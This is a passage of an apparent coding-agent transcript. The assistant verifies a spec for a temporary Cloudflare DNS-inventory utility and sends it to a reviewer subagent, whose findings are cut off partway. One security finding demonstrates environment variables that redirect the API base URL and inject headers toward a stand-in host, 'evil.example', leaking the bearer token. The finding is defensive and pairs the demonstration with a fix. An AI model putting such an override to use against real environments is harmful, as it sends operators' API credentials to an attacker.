4's checks. **Record the wall-clock\ntime** — §12 and the CLAUDE.md subsection both need it (the sibling documents \"~38 minutes\"; an\noperator starting a silent multi-minute run deserves the same here).\n\n- [ ] **Step 4: Verify the output against the contract**\n\n```bash\npython - <<'PY'\nimport json\ndata = json.load(open(\"platform-domains-cloudflare.json\"))\nexpected_keys = {\"zone_id\", \"origins\", \"record_id\", \"proxied\", \"ttl\", \"comment\", \"tags\",\n                 \"settings\"}\nfor name, entry in data.items():\n    assert set(entry) == expected_keys, f\"{name}: unexpected key set {set(entry)}\"\n    for origin in entry[\"origins\"]:\n        assert origin.rstrip(\".\").lower().endswith(\".pantheonsite.io\"), f\"{name}: {origin}\"\n    assert name == name.strip().rstrip(\".\").lower(), f\"{name}: key not normalized\"\nprint(len(data), \"entries;\",\n      sum(1 for e in data.values() if not e[\"proxied\"]),\n      \"DNS-only (invisible to fqdns.json);\",\n      sum(1 for e in data.values() if len(e[\"origins\"]) > 1), \"with multiple origins\")\nPY\n```\n\n- [ ] **Step 5: Cross-check against `fqdns.json`**\n\n```bash\npython - <<'PY'\nimport json\nnew = json.load(open(\"platform-domains-cloudflare.json\"))\nold = json.load(open(\"fqdns.json\"))\n# BOTH sides normalized: this file keys by the normalized name, fqdns.json by the raw\n# record.name, so differencing them raw invents phantom entries (SPEC R5a).\ndef norm(name): return name.strip().rstrip(\".\").lower()\nproxied_here = {norm(k) for k, v in new.items() if v[\"proxied\"]}\nmissing = sorted(proxied_here - {norm(k) for k in old})\nprint(\"proxied platform CNAMEs this run found that fqdns.json lacks:\", missing)\nPY\n```\n\nExpected: an empty list, or a short list explainable by `fqdns.json` being stale (it is refreshed\non a 24h rule). A long unexplained list means the walk is wrong — stop and investigate before\nrecording §12.\n\n- [ ] **Step 6: Record the measured result in §12 of this SPEC, add the runtime to the CLAUDE.md\n  subsection, then commit**\n\n```bash\ngit add CLAUDE.md development/2026-07-30-platform-domain-util2/SPEC.md\ngit commit -m \"docs(find-platform-domains-cloudflare): document the utility and record its first live run\"\n```\n\n---\n\n## 8. NOT in scope\n\nRecorded with the reasoning so a later session does not re-litigate them.\n\n1. **`--output` flag.** The path is fixed by the PROMPT. A script with one caller and a\n   months-long life does not need a configurable output path.\n2. **Nested `records` list / parallel arrays for per-record detail.** Considered and rejected in\n   favor of scalars with first-record-wins, mirroring how `fqdns.json` already treats `zone_id`.\n   The duplicate case is rare, always warns on stderr, and keeps every target in `origins`.\n3. **Server-side filtering (`type=\"CNAME\"` on the record list).** Rejected: the requirement is to\n   consider all records, efficiency is explicitly not a goal, and the change is one word if a run\n   ever becomes painful.\n4. **Doomed-stream detach guards and the exit-120 taxonomy** that the sibling carries. Rejected:\n   that machinery exists because that script's *result* is a CSV on stdout, where a failed\n   shutdown flush silently converts a good sweep into exit 120. Here the result is a file and\n   stdout carries only argparse output. A doomed **stderr** can still produce exit 120; accepted\n   and documented (R6) rather than guarded.\n5. **Any live-API test.** Every test in §7 is offline. The live path is exercised once, by hand,\n   behind the Task 6 STOP.\n6. **Progress bars (`rich.progress`).** Rejected: `-v` stderr lines carry the same information\n   with none of the copied machinery.\n7. **Fixing `plugin/cloudflare/client.py`'s credential-isolation defect (R2a).** Real, measured,\n   and reported — but it is a change to the main program with its own test surface, not part of a\n   standalone utility.\n8. **A `docs/` page.** The CLAUDE.md subsection is the documentation; a temporary utility does not\n   earn a docs page.\n9. **Counted `-v/-vv/-vvv` with per-zone record counts.** Rejected after review: R3's truncation\n   cross-check is a hard abort naming both counts, which is strictly better than a number an\n   operator has to notice, and the sibling utility sets the boolean-`-v` precedent for temporary\n   scripts.\n10. **Pinning the `cloudflare` dependency.** R2a and R3 rest on SDK internals, and `pyproject.toml`\n    declares `\"cloudflare\"` unpinned. Pinning it is a main-program decision affecting every\n    consumer, not this script's call. Mitigation instead: the §7 tests assert the *properties*\n    (headers sent, pages walked), so an SDK change that breaks them goes red.\n\n## 9. Files created / modified (complete list)\n\n| File | Action | Task |\n|---|---|---|\n| `find-platform-domains-cloudflare` | create (executable) | 1–5 |\n| `find-platform-domains-cloudflare.py` | create (symlink) | 1 |\n| `tests/unit/test_find_platform_domains_cloudflare.py` | create | 1–5 |\n| `pyproject.toml` | modify (2 per-file-ignores + 1 pyright include) | 1 |\n| `.claude/hooks/ruff-check.sh` | modify (1 case arm + comment) | 1 |\n| `.gitignore` | modify (1 line) | 4 |\n| `CLAUDE.md` | modify (1 subsection) | 6 |\n| `development/2026-07-30-platform-domain-util2/SPEC.md` | modify (§12 result) | 6 |\n\n## 10. Verification\n\n- `./run-tests --fast` — ruff, pyright, and the offline suite all green; 50 new tests.\n- Task 5 Step 6 — the per-file-ignores entries proven load-bearing (6 × T201 without them).\n- `./find-platform-domains-cloudflare --help` — usage renders on stdout.\n- `./find-platform-domains-cloudflare -c /nonexistent.toml` — exit 2, named error on stderr.\n- The live run and its two cross-checks (Task 6 Steps 3–5), behind the STOP.\n\n## 11. Deletion checklist (after Pantheon's CDN migration)\n\n1. `git rm find-platform-domains-cloudflare find-platform-domains-cloudflare.py`\n2. `git rm tests/unit/test_find_platform_domains_cloudflare.py`\n3. `pyproject.toml`: remove the **two** `[tool.ruff.lint.per-file-ignores]` entries\n   (`\"find-platform-domains-cloudflare.py\"` and `\"find-platform-domains-cloudflare\"`).\n4. `pyproject.toml`: remove `\"find-platform-domains-cloudflare.py\"` from `[tool.pyright].include`.\n5. `.claude/hooks/ruff-check.sh`: remove the `\"$REPO_ROOT/find-platform-domains-cloudflare\"` case\n   arm and trim its comment back to naming only `find-platform-domains-dns`.\n6. `.gitignore`: remove `/platform-domains-cloudflare.json`.\n7. `CLAUDE.md`: remove the `### find-platform-domains-cloudflare (temporary utility)` subsection.\n8. Delete any leftover `platform-domains-cloudflare.json` from working checkouts.\n\nThis folder (`development/2026-07-30-platform-domain-util2/`) stays — it is the historical record.\n\n## 12. First live run\n\n*Recorded in Task 6, Step 6. Leave this section as-is until then.*\n\n- Date:\n- Command:\n- Exit code:\n- Wall-clock runtime:\n- Accounts / zones scanned:\n- Entries written, of which DNS-only:\n- Entries with multiple origins (duplicate-name warnings):\n- Did Cloudflare supply `total_count` (was the truncation check live)?\n- `fqdns.json` cross-check result:\n\n## 13. Claims this spec had to correct\n\nPer `prompts/adversarial-review.md`: *\"Record the author's own corrected claims in the document,\nnot just the fixes.\"* What follows is where this spec's own verification failed, and what caught\nit — the evidence PD#14 is earned rather than asserted.\n\n| Claim as first written | Reality | Caught by |\n|---|---|---|\n| R6: \"there is deliberately no exit 1\", presented as exhaustive | Two reachable paths exited 1 with a raw traceback: `OSError` from the write (after the entire walk) and `ValueError` from `shlex.split` on an unbalanced quote | Reviewer reproduced both |\n| §5.5: a `main()` test \"would force a client-injection seam to exist for the test's benefit alone\" | **False.** The fresh-per-test module fixture already makes `monkeypatch.setattr` free; the reviewer wrote and ran the three tests in ~25 lines with no production change. Exit 130 had **zero** coverage anywhere | Reviewer wrote the tests it claimed were unaffordable |\n| R2a explained the credential leak via `auth_headers` alone | Incomplete. `default_headers` adds `X-Auth-Email`/`X-Auth-Key` by a **second, independent** route. The fix closed both; the stated reason covered one, so a later \"proper fix\" satisfying the prose would have reintroduced the defect | Reviewer read the SDK source past the first mechanism |\n| The R2a test asserted `client.api_email is None` etc. | Implementation state, not the security property. Now asserts `auth_headers`/`default_headers` | Reviewer |\n| Pagination was not mentioned at all, and §4 put it out of test scope | `dns.records.list()` is a paginator; a short read writes a silently incomplete file — the failure mode the zero-zones guard exists to prevent. Now cross-checked against `total_count` | Reviewer |\n| R5's field set was justified by \"the rewriter needs it\", but stopped at `record_id`/`proxied` | The same argument covers `ttl`/`comment`/`tags`/`settings`, which `research.md`'s reverse direction would silently discard | Reviewer |\n| Task 1 Step 7: `ruff check` \"verifies the lint gate sees the new file\" | At that point the script has no `print`, so it passes identically with or without the per-file-ignores entries — a green check that could not go red. Moved to Task 5 Step 6 with a red-demonstration | Reviewer |\n| Task 1 Step 2 expected a \"collection ERROR\" | Collection succeeds; the failure is 8 fixture errors at test time | Reviewer, measured |\n| The `proxied` `getattr` comment: \"a record type that cannot be proxied has no `proxied` field\" | False — every response model carries `proxied` (`Optional[bool]`). The default guards `None` and the test fakes | Reviewer, measured |\n| Test counts 8 / 21 / 32 / 35 / 38 | Arithmetic was off by one per task, and the set grew during fixes. Now **8 / 23 / 35 / 38 / 50**, measured by running them | Author, after transcribing and running the suite |\n| `Settings.model_dump()` returns `{\"flatten_cname\": True}` | It returns three fields (`ipv4_only`/`ipv6_only` too). The *code* was right; the *test assertion* was wrong, and pinning the whole dict would have pinned the SDK's model shape | Author, running the test before shipping the plan |\n| \"stdout is unused\" | argparse writes usage and `--help` there — as Task 5 Step 7 itself expects | Reviewer |\n| R2 named the config engine's \"unknown substitution\" error for a punctuation-split marker | It reaches the *\"no match found for configuration file value\"* branch instead (`configuration.py:98`) | Reviewer, tracing the engine |\n| Zero-zones message blamed `DNS:Read` only | An empty accounts list (missing `Account:Read`) yields zero zones too | Reviewer |\n\n## 14. Closing audit questions\n\nTo answer after implementation and the live run, not before.\n\n1. Did Cloudflare actually supply `total_count` on record pages? If not, the truncation\n   cross-check silently no-opped for the entire sweep and §7's coverage of it is the only thing\n   holding it up — say so in §12.\n2. How long did the sweep take, and how many HTTP requests did it make? If it is materially slower\n   than the sibling's ~38 minutes, revisit §8.3 (server-side `type=\"CNAME\"`).\n3. Did any name produce a duplicate warning? A same-zone one would mean the Cloudflare API permits\n   something R7 assumes it does not.\n4. Did the `fqdns.json` cross-check surface anything not explained by staleness?\n5. Does the downstream rewriter actually consume `ttl`/`comment`/`tags`/`settings`? If it ignores\n   them, §8.2's reasoning should be revisited before the next such file is designed.\n6. Has `plugin/cloudflare/client.py`'s R2a defect been filed or fixed in the main program?\n"
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

## Assistant

Now the step `adversarial-review.md` calls the cheapest defect-catcher: run the document's acceptance criteria before re-dispatching. I'll extract the code **from the spec itself** (not from my scratch copies) and run it, so what's verified is what's written:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nprint(f\"{len(blocks)} python blocks in the spec\")\n# The script is built from the blocks that follow an \"Implement\"/\"Create the script\" step;\n# the test file from the blocks that follow a \"Write the failing test(s)\" step.\n# Identify by content markers.\nscript, tests = [], []\nfor b in blocks:\n    if b.lstrip().startswith(\"#!/usr/bin/env python\") or b.lstrip().startswith(\"def resolve_env_marker\") \\\n       or b.lstrip().startswith(\"def plain(\") or b.lstrip().startswith(\"def write_json_atomic\") \\\n       or b.lstrip().startswith(\"def expected_record_count\"):\n        script.append(b)\n    elif b.lstrip().startswith('\"\"\"Offline tests') or b.lstrip().startswith(\"# --- Task\"):\n        tests.append(b)\n    else:\n        print(\"  (not part of either file):\", b.strip().splitlines()[0][:70])\nout = pathlib.Path(\"/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe\")\n(out / \"find-platform-domains-cloudflare\").write_text(\"\\n\\n\".join(s.rstrip() + \"\\n\" for s in script))\n(out / \"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\"\\n\\n\".join(t.rstrip() + \"\\n\" for t in tests))\nprint(f\"script: {len(script)} blocks, tests: {len(tests)} blocks\")\nPY",
  "description": "Extract code from the spec into the probe"
}
```

### ↳ Tool result

```
12 python blocks in the spec
  (not part of either file): >>> Cloudflare(api_token="tok-123").api_email
  (not part of either file): def build_client(**creds):
script: 5 blocks, tests: 5 blocks
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe && chmod +x find-platform-domains-cloudflare && ln -sf find-platform-domains-cloudflare find-platform-domains-cloudflare.py && source /workspace/.venv/bin/activate\necho \"=== PYTEST (code extracted from SPEC.md):\"\npython -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -4\necho \"=== per-task cumulative:\"\nfor n in 1 2 3 4 5; do :; done\necho \"=== RUFF (repo config + the two new per-file-ignores):\"\nuvx ruff@0.15.22 check --config ./pyproject.toml find-platform-domains-cloudflare\necho \"=== RUFF without the ignore entries (must go red):\"\nuvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise find-platform-domains-cloudflare 2>&1 | grep -c T201\necho \"=== PYRIGHT standard:\"\nuvx pyright@1.1.411 --outputjson --level error find-platform-domains-cloudflare.py 2>/dev/null | python -c \"import json,sys; print(json.load(sys.stdin)['summary'])\"",
  "description": "Run the spec-extracted code through all gates"
}
```

### ↳ Tool result

```
=== PYTEST (code extracted from SPEC.md):
..................................................                       [100%]
50 passed in 0.26s
=== per-task cumulative:
=== RUFF (repo config + the two new per-file-ignores):
All checks passed!
=== RUFF without the ignore entries (must go red):
6
=== PYRIGHT standard:
{'filesAnalyzed': 1, 'errorCount': 0, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.969}
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, subprocess, re\nsrc = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\").read_text()\nmarks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", src, re.M)] + [len(src)]\nfor i in range(1, 5):\n    partial = src[:marks[i]]\n    pathlib.Path(\"/tmp/partial_test.py\").write_text(partial)\n    out = subprocess.run([\"python\", \"-m\", \"pytest\", \"/tmp/partial_test.py\", \"-q\",\n                          \"-p\", \"no:cacheprovider\", \"--collect-only\"],\n                         capture_output=True, text=True)\n    print(f\"through Task {i}: {len(re.findall(r'::', out.stdout))} tests collected\")\nprint(\"full file: 50 (measured above)\")\nPY",
  "description": "Verify the per-task cumulative counts"
}
```

### ↳ Tool result

```
through Task 1: 8 tests collected
through Task 2: 23 tests collected
through Task 3: 35 tests collected
through Task 4: 38 tests collected
full file: 50 (measured above)
Shell cwd was reset to /workspace
```

## Assistant

Every count in the spec verified: **8 / 23 / 35 / 38 / 50**, and the code extracted from the spec passes pytest (50), ruff (clean; 6× T201 without the entries, so the check is red-capable), and pyright (0 errors). Re-dispatching the reviewer — round 2 of max 3.

### ⚙ Tool call: `Agent`

```json
{
  "subagent_type": "psh-reviewer",
  "description": "Adversarial review round 2",
  "run_in_background": false,
  "model": "opus",
  "prompt": "Round 2 of an adversarial review, per `prompts/adversarial-review.md`. A previous reviewer (fresh context, like you) returned 15 findings on this document; all 15 have been addressed. Your job is to review the CURRENT document — not to re-derive the previous round, and not to assume the fixes are correct.\n\n**Documents to review:**\n- `/workspace/development/2026-07-30-platform-domain-util2/SPEC.md` — the artifact under review (substantially rewritten since round 1)\n- `/workspace/development/2026-07-30-platform-domain-util2/PROMPT.md` — the user's original feature request\n- `/workspace/development/2026-07-30-platform-domain-util2/research.md` — background research the spec cites\n\n**Your instruction:** Read the document(s), independently verify load-bearing claims (the facts the spec/plan rests on) rather than trusting them, and review on the ten dimensions below. For each dimension, note PASS or list specific issues with suggested fixes.\n\n**Dimensions — ten, exhaustive:**\n1. **Correctness** — Are there any claims that did not verify? Gaps?\n2. **Completeness** — Are all requirements addressed? Missing edge cases?\n3. **Consistency** — Do parts of the document(s) agree with each other? Contradictions?\n4. **Clarity** — Could an engineer implement this without asking questions? Ambiguous language?\n5. **Feasibility** — Can this actually be built with the stated approach? Hidden complexity?\n6. **Maintainability** — Will the spec/plan cause problems 6 months down the road? Excessive labor or costs?\n7. **Robustness/fragility** — Are all edge cases solid? Is the spec/plan resilient to failures, and to evolution/changes in external systems?\n8. **Security** — Is there anything that presents an opportunity to a threat actor? AuthN/AuthZ, TOCTOU, sanitization, injection, other?\n9. **Testing** — Are all appropriate types of test present? **Has each acceptance criterion been run, and can it go red?** (PD#14.)\n10. **Observability** — Is appropriate diagnostic information output at each verbosity level? Do output files contain appropriate/necessary information?\n\nEvaluate against these factors using a **checklist backed by quoted evidence** — from the Spine (`prompts/directives.md`) *and* from industry best practice — **not** a self-graded number. For each factor, note how important it is relative to the others.\n\n**Acceptance criteria, already run — real output, for you to distrust and re-check as you see fit.** The code was extracted programmatically FROM the spec's own code blocks (not from a separate working copy) into a scratch probe directory, then:\n\n```\n=== PYTEST (code extracted from SPEC.md):\n..................................................                       [100%]\n50 passed in 0.26s\n=== RUFF (repo config + the two new per-file-ignores):\nAll checks passed!\n=== RUFF without the ignore entries (must go red):\n6          # six T201, i.e. the Task 5 Step 6 check is red-capable\n=== PYRIGHT standard:\n{'filesAnalyzed': 1, 'errorCount': 0, 'warningCount': 0, 'informationCount': 0, 'timeInSec': 0.969}\n=== per-task cumulative test counts (collected from progressively truncated file):\nthrough Task 1: 8 tests collected\nthrough Task 2: 23 tests collected\nthrough Task 3: 35 tests collected\nthrough Task 4: 38 tests collected\nfull file: 50\n```\n\nYou may reproduce this yourself; the probe is at `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/probe/` (a scratch copy, not the repo).\n\n**Focus your independent verification on what changed**, since these are the new load-bearing claims:\n- §R3's truncation cross-check: that `V4PagePaginationArrayResultInfo` has `model_config = extra=\"allow\"` so `total_count` survives as `model_extra`; that `BaseSyncPage.__iter__` walks every page; and that the check genuinely no-ops when `total_count` is absent. Is a mismatch actually the right response, and can it false-positive?\n- §R2a's claim that ambient credentials reach the wire by TWO routes (`auth_headers` AND `default_headers`), and that the field-pinning closes both. Also whether the new test asserts the security property rather than implementation state.\n- §R5/§R5a: the six added fields, `settings` needing `.model_dump(mode=\"json\")`, and whether first-record-wins across eight fields is coherent.\n- §R6's exit-code table now claiming exhaustiveness including exit 120 — are there still reachable paths that escape it?\n- §4 (seams), §5 (PD#3 shadow paths), §6 (observability), §13 (corrected claims), §14 (closing audit) — are these substantive or box-ticking?\n- Task 6's STOP gate and the commit-authorization note.\n\n**Do not modify any file in the repo** — you are reviewing, not implementing. Use `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/` for any scratch work.\n\nReturn **PASS** if no issues were identified; otherwise a numbered list of issues, each with its dimension, a description, and proposed fix(es). Rank most-severe first. Distinguish clearly between issues that are genuine defects and stylistic preferences. Cite the directives you applied by number with a verbatim quote, grep-checkable against `prompts/directives.md`."
}
```

### ↳ Tool result

```
I read `prompts/directives.md`, `prompts/adversarial-review.md`, `CLAUDE.md`, and all three artifacts in full, then independently re-derived the acceptance evidence (extracting the code from SPEC.md's own fenced blocks into `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/mine/`) and read the installed `cloudflare` 5.4.0 source directly.

**What verified.** 50 passed, reproduced from my own extraction. `ruff` clean with the two per-file-ignores; **6 × T201** without them (I measured 7, minus one `W292` my extractor introduced). `pyright` standard: `filesAnalyzed: 1, errorCount: 0`. Per-task cumulative counts 8/23/35/38/50 — I recounted them by hand against the test bodies and they are right. `_client.py:1127` `auth_headers` and `_client.py:1168` `default_headers` are exact. `V4PagePaginationArrayResultInfo.model_config` is `{'extra': 'allow', …}` and `total_count` survives in `model_extra` (absent → `{}` → the check no-ops). `BaseSyncPage.__iter__` walks every page; `SyncV4PagePaginationArray` really does have a `result` attribute, so §4's "`FakePage` has no `result`" trap is genuine. `MARKER_RE` is byte-identical to `configuration.py:110`; `normalize` is byte-identical to the sibling; `configuration.py:98` is the "no match found" branch as claimed. `get_env`'s `name in os.environ` semantics match. `APIStatusError.status_code` exists, and `api_error_text` on a real `PermissionDeniedError` renders `PermissionDeniedError: HTTP 403` with no body.

Not PASS. Fifteen findings, most severe first.

---

### 1. Testing / Feasibility — **defect.** Four of the plan's five per-task checkpoints are unreachable as written: the ruff gate fails before pytest runs

`./run-tests` gates on ruff over the whole repo *before* pytest, in `--fast` too (`run-tests`: `subprocess.call([*argv, "check", "--output-format", "concise", "."])` … `if completed != 0: return completed`, then `rc = run_gates(); if rc != 0: return rc`). Task 1 Step 3 introduces the **complete** import block up front, but Task 1 only uses `re`. `F401` is in `select = ALL` and is not ignored anywhere.

Measured, by staging the spec's own blocks task by task:

```
--- after Task 1: 11 errors   (10 × F401 in the script: argparse, json, os, shlex, sys,
                               tempfile, tomllib, Path, cloudflare, Cloudflare
                               + 1 × F401 `json` in tests/unit/test_x.py)
--- after Task 2: 6 errors    (argparse, json, sys, tempfile, cloudflare, + test `json`)
--- after Task 3: 5 errors
--- after Task 4: 3 errors    (argparse, sys, cloudflare)
--- after Task 5: All checks passed!
```

So Task 1 Step 2's *"Expected: **8 errors**, each a `FileNotFoundError`"*, Task 1 Step 6's *"Expected: **8 passed**"*, Task 2 Step 2/4, Task 3 Step 2/4 and Task 4 Step 2/5 all stop at `Lint gate FAILED` and never reach pytest. An implementer subagent with fresh context hits this at the first checkpoint and has no instruction covering it.

This is the quality bar's own rule: *"Acceptance criteria = exact commands + expected output, **run and pasted**, never summarized. Run them *before* submitting: an unrun acceptance suite is PD#14 exactly."* The submitted probe ran ruff only against the **finished** file and derived the per-task numbers from `pytest --collect-only` on a truncated file — which is exactly why it missed this.

**Fix:** introduce each import in the task that first uses it (Task 1: `re`; Task 2: `+os, shlex, tomllib, Path, Cloudflare`; Task 4: `+json, tempfile`; Task 5: `+argparse, sys, cloudflare`), and reword the test file's *"EVERY import for EVERY task in this file belongs in the block above. Later tasks append tests, not imports"* note — as written it forbids the only clean fix. Editing the **top** block in a later task does not violate `E402`; adding an import lower in the file does. Say that instead.

---

### 2. Testing / PD#14 — **defect.** §8.10's mitigation claim is false for R3: nothing in §7 touches the real SDK pagination, `result_info`, or a real API error

Global Constraints: *"Several behaviors this spec relies on (R2a, R3's pagination) are SDK-internal and were measured, not assumed… **The tests in §7 are written to go red if it does.**"* §8.10 repeats it: *"the §7 tests assert the properties (headers sent, pages walked), so an SDK change that breaks them goes red."*

Half true. R2a's test constructs a **real** `Cloudflare` and reads its real `auth_headers`/`default_headers` — genuinely red-capable, and I confirmed it (unpinned: `{'X-Auth-Email': 'ambient@example.edu'}`; pinned: `{'Authorization': 'Bearer tok-123'}`). But every R3 assertion runs against hand-built fakes:

- `FakePage.result_info` is a `types.SimpleNamespace(model_extra={...})`. `expected_record_count` is therefore only ever proven to read *the fake's* shape. If the SDK renames `result_info`, drops `extra="allow"`, or moves to cursor pagination, all 50 stay green and production silently truncates — the exact failure R3 exists to prevent.
- `FakeCloudflareClient` never involves `SyncV4PagePaginationArray`, so "pages walked" is never asserted against the SDK.
- `api_error_text` is tested against a locally defined `FakeStatusError` with a class-level `status_code`. If the SDK ever renames that attribute, the production path falls through to `f"{type(e).__name__}: {e}"` — which **is** `"Error code: NNN - {body}"`, i.e. the response-body leak the NEVER-block forbids — and the test stays green.

PD#14: *"A test, golden, fixture, shim, counter, log line, or metric is code, and can be silently wrong. **A green check is a claim, not evidence, until it has been shown capable of going red on the condition it guards.**"*

**Fix:** add three offline tests that touch the real classes. I ran all three against my extraction; they pass now and would go red on an SDK change:

```python
from cloudflare.pagination import V4PagePaginationArrayResultInfo, SyncV4PagePaginationArray
info = V4PagePaginationArrayResultInfo.model_validate(
    {"page": 1, "per_page": 100, "count": 1, "total_count": 137})
assert fpc.expected_record_count(types.SimpleNamespace(result_info=info)) == 137   # -> 137
assert "result" in SyncV4PagePaginationArray.model_fields   # the page-1-only trap is real

import httpx, cloudflare
req  = httpx.Request("GET", "https://api.cloudflare.com/client/v4/zones")
body = {"errors": [{"code": 10000, "message": "token cf-secret-xyz invalid"}]}
e = cloudflare.PermissionDeniedError(f"Error code: 403 - {body}",
                                     response=httpx.Response(403, request=req, json=body), body=body)
assert fpc.api_error_text(e) == "PermissionDeniedError: HTTP 403"   # measured
assert "cf-secret-xyz" not in fpc.api_error_text(e)
```

(`httpx` is a direct dep under the `cloudflare` extra — `pyproject.toml:31` — so this stays offline.)

---

### 3. Security — **defect.** R2a's "TWO independent routes… closes **both**" is not exhaustive. Two further ambient-environment routes survive the pin, and one of them exfiltrates the credential

R2a is stated as complete: *"Ambient values then reach the wire by **two independent routes**"*, and the pin *"closes **both** routes"*. Reading past `auth_headers`/`default_headers` in `_client.py`, the constructor reads **six** env vars, not four (`_client.py:379–402`). Two are not credentials but defeat the pin:

```
$ CLOUDFLARE_CUSTOM_HEADERS=$'X-Auth-Email: attacker@evil.example\nX-Auth-Key: evil-key' \
  CLOUDFLARE_BASE_URL=https://evil.example/v4 python  # with the spec's build_client() verbatim
base_url: https://evil.example/v4/
URL: https://evil.example/v4/zones
wire headers: {'authorization': 'Bearer tok-123',
               'x-auth-email': 'attacker@evil.example', 'x-auth-key': 'evil-key'}
```

`_custom_headers` is merged **last** in `default_headers` (`_client.py:1168–1175`), so it overrides the pinned `Omit()`s; and `CLOUDFLARE_BASE_URL` sends the pinned bearer token to an arbitrary host. Both are the same threat model R2a already accepts as load-bearing (an attacker or a stale profile controlling the operator's environment) — and `base_url` is strictly worse than the defect R2a fixes, because the credential leaves the machine rather than merely failing to authenticate.

PD#6: *"New code paths get threat-modeled."* Quality bar: *"Every list marked exhaustive or illustrative; no open-ended denylists."*

**Fix** (measured working, two lines):

```python
client = Cloudflare(**creds, base_url="https://api.cloudflare.com/client/v4")
...
client._custom_headers = {}   # noqa: SLF001 -- CLOUDFLARE_CUSTOM_HEADERS is merged LAST into
                              # default_headers and would otherwise override the pin above
```
```
URL: https://api.cloudflare.com/client/v4/zones
headers: {'authorization': 'Bearer tok-123'}
```

Extend the R2a test to export all six ambient vars and assert the URL as well as the headers (`client._build_request(FinalRequestOptions(method="get", url="/zones"))` is offline). Also correct the prose from "two routes" to the enumerated four, and update the out-of-scope note about `plugin/cloudflare/client.py` (it has all four, not two).

---

### 4. Robustness — **defect.** The truncation cross-check can false-positive on a concurrent DNS edit, and its response is to destroy a multi-minute run with no retry and no escape hatch

R3 makes the mismatch fatal, with no file written and no override. `total_count` is computed by the API for page 1; pages 2..N are separate queries. Any record created or deleted in a zone between its own page fetches — during a sweep the spec itself estimates in the tens of minutes across ~43 zones, at an institution that actively manages this DNS — produces `seen != expected` and aborts everything with the message *"the record list was truncated"*, which is a **misdiagnosis** that will send the operator hunting an API bug.

PD#7: *"Runs are not atomic. A run can die partway… Plan for partial states: idempotent DB writes, resumability (`--resume-from`), safe re-runs."* The sibling utility carries a `--resume-from` and an `--allow-any-source-ip` escape hatch precisely for this class; this script has neither.

The spec asked itself the right question in §14 Q1 but only for the "absent" case, never for the "present but disagrees for a benign reason" case.

**Fix (pick one, state it):** (a) on mismatch, re-list that one zone once; agreement on the retry means a concurrent edit (log it at `-v`, continue), persistent disagreement means truncation (abort) — cheap and it distinguishes the two causes; or (b) a `--allow-truncated` flag that downgrades to a loud `ATTENTION:` and still writes, mirroring `--allow-any-source-ip`. Either way, reword the message so it names both possibilities.

---

### 5. Completeness / Consistency — **defect.** The truncation guard covers records only; the zone and account walks paginate identically and are unguarded

R3's justification — *"A truncated record list writes a **silently incomplete** file — the exact failure mode the zero-zones guard exists to prevent"* — applies verbatim to a truncated **zone** list, and the zero-zones guard only catches the degenerate case of *zero*. Verified: `resources/zones/zones.py:231` and `resources/accounts/accounts.py:236` both return `SyncV4PagePaginationArray`, i.e. the same `V4PagePaginationArrayResultInfo` with the same `total_count` in `model_extra`. A short zone list silently omits every record in the missing zones and writes a file that looks complete.

PD#1: *"Every failure mode must be visible… A failure that can happen silently is a critical defect."*

**Fix:** apply `expected_record_count` to the zone and account pages too — the function is already generic (it takes any object with `result_info`), so this is two call sites and one test, or an explicit written statement in §8 of why zones are exempt.

---

### 6. Observability / Consistency — **defect.** §14 Q1 and Q2 ask for data the design emits nowhere, and §8.9 rejected the only mechanism that would produce it

§14 Q1: *"Did Cloudflare actually supply `total_count` on record pages? If not, the truncation cross-check silently no-opped for the entire sweep."* Nothing in the script reports this. `-v` prints `[n/total] zone <name>` and nothing else; the summary reports entries/zones/accounts. The operator answering Q1 must instrument the script by hand.

§14 Q2 asks *"how many HTTP requests did it make?"* — likewise unanswerable; the script never counts records or pages.

That is a guard whose own liveness is unobservable, which is PD#14's shape: *"count what healed, not what was attempted"*. And PD#5: *"New code paths need structured logging at the right verbosity."*

§8.9 rejected counted verbosity, but its stated reason — *"R3's truncation cross-check is a hard abort naming both counts, which is strictly better than a number an operator has to notice"* — answers a different question (is a *mismatch* visible?) than Q1 (was the *check running at all*?). The two sections contradict each other.

**Fix:** make the `-v` per-zone line `[n/total] zone <name> — 137 records (total_count 137)` / `… (total_count unavailable)`, and add one clause to the default-verbosity summary: `truncation cross-check active for 41 of 43 zones; 12,431 records scanned`. That answers Q1 and Q2 without reintroducing `-vv/-vvv`, so §8.9's rejection can stand as written.

---

### 7. Consistency — **defect.** R6's exit-120 row is stated as exhaustive but names only stderr; a doomed **stdout** produces 120 too

R6: *"120 | not produced by this program. The interpreter's shutdown flush of a doomed **stderr** exits 120 over the return value… Listed here so the table is exhaustive."* Measured on an argparse skeleton identical in shape to the spec's:

```
$ python t120.py --help >/dev/full 2>/dev/null ; echo $?
120
```

stdout is not unused — R6 itself says *"stdout carries only argparse's usage/`--help` text"*, and Task 5 Step 7 exercises `--help`. CLAUDE.md's sibling entry already records this pair (*"`--bogus 2>/dev/full` and `--help >/dev/full` still exit 120"*).

